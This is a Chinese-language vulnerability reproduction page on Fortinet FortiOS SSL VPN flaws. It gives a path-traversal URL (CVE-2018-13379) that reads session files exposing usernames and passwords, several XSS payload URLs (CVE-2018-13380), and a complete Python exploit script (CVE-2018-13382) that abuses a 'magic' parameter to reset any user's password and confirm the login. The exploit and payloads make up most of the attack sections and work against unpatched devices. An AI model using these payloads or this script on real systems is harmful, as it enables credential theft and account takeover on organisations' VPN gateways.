

## **Fortigate**

飞塔防火墙设备的专用名词，Fortinet是飞塔的品牌，而FortiGate  是指飞塔硬件。Fortinet的屡获殊荣的FortiGate系列，是采用ASIC加速的UTM解决方案，可以有效地防御网络层和内容层的攻击。FortiGate解决方案能够发现和消除多层的攻击，比如病毒、蠕虫、入侵、以及Web恶意内容等等实时的应用，而不会导致网络性能下降。它所涉及到的全面的安全体系是涵盖防病毒/反垃圾邮件、防火墙、VPN、入侵检测和防御、反垃圾邮件和流量优化。除了FortiGate以外，Fortinet还提供FortiMail这样的邮件安全的解决方案，和终端、智能手机安全的 FortiClient。

## CVE-2018-13379: Pre-auth任意文件读取

### **漏洞简介**

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）

漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

### **漏洞影响**

Fortinet FortiOS 5.6.3版本至5.6.7版本、Fortinet FortiOS 6.0.0版本至6.0.4版本中的SSL VPN 受此漏洞影响。

### **复现过程**

可访问链接查看是否存在漏洞

```
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

可查看用户名、密码

可直接登录成功。



### 检测工具

```
https://github.com/ianxtianxt/CVE-2018-13379
```

## CVE-2018-13380 Fortinet FortiOS xss漏洞

### 漏洞简介

Fortinet  FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN  Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

### 漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

### 复现过程

```
/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E
/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29
/message?title=x&msg=%26%23<svg/onload=alert(1)>;
```


## CVE-2018-13382 Fortinet FortiOS magic后门

### 漏洞简介

Fortinet  FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本 、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

### 漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

### 复现过程

登录页面中存在特殊参数magic，一旦这个参数为某个特殊字符串，就可以修改任意用户密码。

可使用POC直接进行修改。


```
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True
userAgent=generate_user_agent()
username=""
newpassword=""
ip=""
def setColor(message, bold=False, color=None, onColor=None):
    from termcolor import colored, cprint
    retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
    return retVal
def checkIP(ip):
    try:
        url = "https://"+ip+"/remote/login?lang=en"
        headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        r=requests.get(url, headers=headers, verify=False)
        if r.status_code==200 and "<title>Please Login</title>" in r.text:
            return True
        else:
            return False
    except requests.exceptions.ConnectionError as e:
        print e
        return False
def changePassword(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
        return True
    else:
        return False
def testLogin(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
            return True
    else:
        return False
parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
    print "[!] Please provide the ip (-i), username (-u) and password (-p)"
    sys.exit()
if options.username:
    username=options.username
if options.password:
    newpassword=options.password
if options.ip:
    ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
    print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
    if changePassword(ip,username,newpassword)==True:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
        if testLogin(ip,username,newpassword)==True:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
            print "************** Enjoy your new credentials **************"
        else:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
    else:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
else:
    print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
```